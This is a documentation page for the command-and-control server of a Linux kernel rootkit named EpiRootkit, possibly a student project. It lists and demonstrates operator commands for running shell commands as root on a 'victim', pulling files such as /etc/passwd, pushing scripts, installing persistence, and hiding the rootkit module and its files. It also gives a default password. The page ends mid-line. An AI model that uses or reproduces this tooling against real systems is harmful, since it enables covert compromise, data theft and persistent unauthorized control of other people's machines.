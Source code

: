 ```yaml
---
title: "Command Reference"
description: "Complete reference for all C2 server commands"
icon: "terminal"
date: "2025-05-25T00:00:00+01:00"
lastmod: "2025-05-25T16:00:00+01:00"
draft: false
toc: true
weight: 303
---
```


# Command Reference

Complete reference for all C2 server commands.

## Command List

| Command | Description | Auth Required |
|---------|-------------|---------------|
| `clients, ls` | List connected clients | No |
| `auth <client> <password>` | Authenticate with client | No |
| `exec <client> <command>` | Execute shell commands | Yes |
| `upload <client> <local> [remote]` | Upload files to victim | Yes |
| `download <client> <remote> [local]` | Download files from victim | Yes |
| `status <client>` | Get rootkit status | Yes |
| `keepalive <client>` | Check connection status | Yes |
| `persist <client> [action]` | Manage persistence | Yes |
| `config <client>` | Interactive configuration | Yes |

## Client Management

### List Clients
```bash
ls               # List all connected clients
# • Client-1 - AUTHENTICATED - Last seen: 6:13:29 PM
# • Client-2 - UNAUTHENTICATED - Last seen: 6:10:15 PM

clients          # Same as ls
```

### Authentication
```bash
auth Client-1 password     # Authenticate with client
# ✓ [2025-05-25 16:13:29] Authenticated
# SUCCESS: Authentication successful

auth Client-1 wrongpass    # Wrong password
# ERROR: Authentication failed
```
**Features:**
- SHA-512 password hashing
- Rate limiting (5 attempts/60 seconds)
- Session timeout (1 hour)
- Default password: `password`

## Command Execution

```bash
exec Client-1 whoami
# Exit code: 0
# Output: root

exec Client-1 uname -a
# Exit code: 0
# Output: Linux victim 5.4.0-74-generic #83-Ubuntu x86_64 GNU/Linux

exec Client-1 ps aux | head -5
# Exit code: 0
# Output: 
# USER       PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
# root         1  0.0  0.1 225468  9876 ?        Ss   15:00   0:01 /sbin/init
# root         2  0.0  0.0      0     0 ?        S    15:00   0:00 [kthreadd]
```

**Features:**
- Root privileges execution
- Full stdout/stderr capture
- Exit code display
- Real-time output

## File Transfer

### Upload Files
```bash
upload Client-1 ./file.txt /tmp/file.txt    # Upload to specific path
# ✓ File uploaded successfully (1024 bytes)

upload Client-1 ./script.sh                 # Upload to current directory
# ✓ File uploaded successfully (512 bytes)
```

### Download Files
```bash
download Client-1 /etc/passwd ./passwd      # Download to specific path
# ✓ File downloaded successfully (2048 bytes)

download Client-1 /etc/hostname             # Download to current directory
# ✓ File downloaded successfully (64 bytes)
```

**Features:**
- Base64 encoding
- Path validation
- Binary/text file support
- Automatic path resolution

## System Information

### Status Check
```bash
status Client-1
# EpiRootkit Status:
# Version: 1.0.0
# Authentication: YES
# Connection: CONNECTED
# Module Hidden: YES
# File Hiding: YES
# Persistence: ENABLED
```
**Output:**
- Version information
- Authentication status
- Module hiding state
- Persistence status

### Connection Check
```bash
keepalive Client-1
# Keepalive Status:
# Last ping: 2025-05-25 16:14:00
# Last pong: 2025-05-25 16:14:00
# Failed pings: 0
# Connection: STABLE
```
**Output:**
- Last ping/pong times
- Failed ping count
- Connection stability
- Reconnection attempts

## Persistence Management

```bash
persist Client-1 install    # Install all mechanisms
# SUCCESS: All persistence mechanisms installed

persist Client-1 remove     # Remove all mechanisms
# SUCCESS: All persistence mechanisms removed

persist Client-1 modules    # modules-load.d only
# SUCCESS: modules-load.d persistence installed
```

## Configuration

### Interactive Config
```bash
config Client-1
# ┌─ Configuration - Client-1
#   Current Configuration:
#   [X] Module Hiding (Click to disable)
#   [X] File Hiding (Click to disable)
#   [X] Persistence (Click to disable)
#   
# ? Select option: [Use arrow keys]
```
**Available Settings:**
- Module hiding toggle
- File hiding toggle
- Persistence management
- Connection parameters

### Direct Commands
```bash
# Stealth features
hide_module Client-1      # Hide rootkit module
# SUCCESS: Module hidden

unhide_module Client-1    # Show rootkit module
# SUCCESS: Module visible

hide_files Client-1       # Enable file hiding
# SUCCESS: File hiding enabled

unhide_files Client-1     # Disable file hiding
# SUCCESS: File hiding disabled
```

## Error Handling

### Authentication Errors
- `